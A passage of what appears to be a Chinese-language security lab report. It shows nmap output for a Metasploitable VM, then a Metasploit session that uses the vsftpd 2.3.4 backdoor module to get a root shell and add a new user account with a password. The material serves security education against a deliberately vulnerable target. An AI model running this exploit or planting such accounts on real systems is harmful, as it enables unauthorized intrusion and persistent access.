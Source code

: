 ```shell
MAC Address: 00:0C:29:BE:4B:8B (VMware)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.83 seconds
```

![2.1-扫描](https://raw.githubusercontent.com/BIIIANG/pic/main/202204290044183.png)

- 之后使用`Metasploit`中的`exploit/unix/ftp/vsftpd_234_backdoor`攻击脚本进行攻击，并通过`shell`进行一系列操作（去除无效操作），以下为模拟操作：

```shell
[12:24:33] xubiang:EXP1 $ msfconsole
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Search can apply complex filters such as 
search cve:2009 type:exploit, see all the filters 
with help search

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.2.110
RHOST => 192.168.2.110
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.2.110:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.2.110:21 - USER: 331 Please specify the password.
[+] 192.168.2.110:21 - Backdoor service has been spawned, handling...
[+] 192.168.2.110:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.2.193:42219 -> 192.168.2.110:6200 ) at 2022-04-28 12:25:13 -0400

id
uid=0(root) gid=0(root)
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
whoami
root
adduser newuser
Adding user `newuser' ...
Adding new group `newuser' (1003) ...
Adding new user `newuser' (1003) with group `newuser' ...
Creating home directory `/home/newuser' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: anewuser
Retype new UNIX password: anewuser
passwd: password updated successfully
```